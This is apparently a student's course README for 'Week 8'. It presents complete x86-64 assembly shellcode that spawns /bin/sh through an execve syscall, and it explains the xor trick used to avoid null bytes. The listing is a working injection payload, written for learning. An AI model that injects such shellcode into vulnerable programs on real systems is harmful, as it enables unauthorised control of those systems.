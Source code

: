 # Shell Code - Week 8 

The purpose of this week was to write shellcode or code that we might inject into a program that when read will execute
and potentailly allow control of a system in this case we spawn a shell. 

``` asm
.global _start
.section .text 
_start:
    //xor to create the null values without null directly
    xor %rax, %rax 
    push %rax
    mov %rsp, %rsi
    mov %rsp, %rdx
    //load /bin/sh encoded in little endian
    mov $0x68732F6E69622F, %rbx
    push %rbx
    mov %rsp, %rdi  
    //load 3b for the execve call
    mov $0x3B, %rax  
    syscall
```

![image](https://user-images.githubusercontent.com/44854053/234171026-28f216c0-c759-4710-a368-66fe23bdf3eb.png)

![bytecountscript](./shellcode/bytecount.py)


In order to avoid null bytes the first thing I did was use xor to create a zero then stored that in the adress of that in the rsp.

